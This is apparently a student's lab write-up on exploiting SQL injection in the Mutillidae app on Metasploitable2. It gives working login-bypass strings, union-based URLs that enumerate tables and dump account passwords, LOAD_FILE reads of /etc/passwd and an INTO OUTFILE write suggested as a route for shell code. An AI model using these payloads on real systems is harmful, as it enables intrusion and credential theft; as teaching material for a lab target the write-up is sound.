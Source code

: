 Name: Hema dharshini N
reg no : 212223220034

# sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2
![eth8 1](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/650d4cad-5748-4069-bf1d-8cd499d4fce6)

Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser.

![eth8 2](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/e86808fd-2a79-4efd-b782-a50ddcf2e7ca)
Select Multidae from the menu listed as shown above. You will get the page as displayed below:
![eth 8 3](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/217765b3-d322-4406-9acf-efd1b91fef37)
Click on the menu Login/Register and register for an account

![eth 8 4](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/994b10c6-f9dc-4f86-9dfa-506e8e3c4be8)
Click on the link “Please register here”
![eth 8 5](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/89f0c530-eb54-4801-afe3-084748352b51)
Click on “Create Account” to display the following page: 
![eth 8 6](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/6e476216-6765-471a-975f-bf655e4d2225)
The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.
![eth 8 7](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/5142df6e-7f72-4ea0-9d67-84592c271940)
Click “Login”. The logged in page will show as below:
![eth 8 8](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/2310eabc-d4fd-4e9e-80eb-54955bb35f4e)
## Bypassing login field:
The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.
![eth8 9](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/94b8269e-49fa-49e8-a560-d399fcea9670)

Click the login button and you will see it enter into the administrator page.
## Union-based SQL injection:
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info”

After logging out, Now choose the menu as shown below: img
![eth8 10](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/d0bd94c2-7608-4c5e-814e-0d3f11556864)
![eth 8 11](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/06a06b44-98d2-4977-906f-a4a533ab7bfd)
![eth 8 11](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/33334541-8789-40eb-a38d-22b3b11c43f6)
![eth8 13](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/ea79fdde-b333-4f21-8750-0b7e7bd20be2)
![eth 8 14](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/9370ac48-4c90-4849-af4b-f807d959a88c)
From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.
![eth 8 15](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/d8b5f209-54a7-4e9c-a506-be4d04a092b9)
Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details
![eth 8 16](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/7c4d0179-0d0b-4de7-b23c-aa2c6c1d78f2)
After adding the order by 6 into the existing url , the following error statement will be obtained:
![eth 8 17](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/200b0f88-00af-4877-a112-c07dfc9ae425)
When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![eth 8 18](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/a6e24728-1238-41dd-bae2-f09b7b8a7db8)
As it is having 5 columns the query worked fine and it provides the correct result
![eth 8 19](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/532dffdf-3d42-40c6-b775-5b7429696bc8)

Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![eth 8 20](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/b6b69a95-b8a5-4fe9-bcff-4a7315f24769)
As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![eth 8 21](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/b93c11a0-a12c-4cab-87fc-fa521adf9d28)
Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
![eth 8 22](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/2328344d-084c-4585-b51e-a9009d8b9b4a)
The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![eth 8 23](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/644d7f1c-3039-494b-a622-8799c41f3ebc)
The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![eth 8 24](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/618b3e09-dc41-494b-83b2-572dc28d5074)
The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![eth 8 25](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/d5c5fcd8-774b-4d38-8ee0-73b71cec39a0)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![eth 8 26](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/de94446f-a496-4fc6-9986-629eaac4536b)
## Reading and writing files on the web-server:
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![eth 8 27](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/9a7cf898-b0bd-458b-a945-7eab736b7f88)
the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.

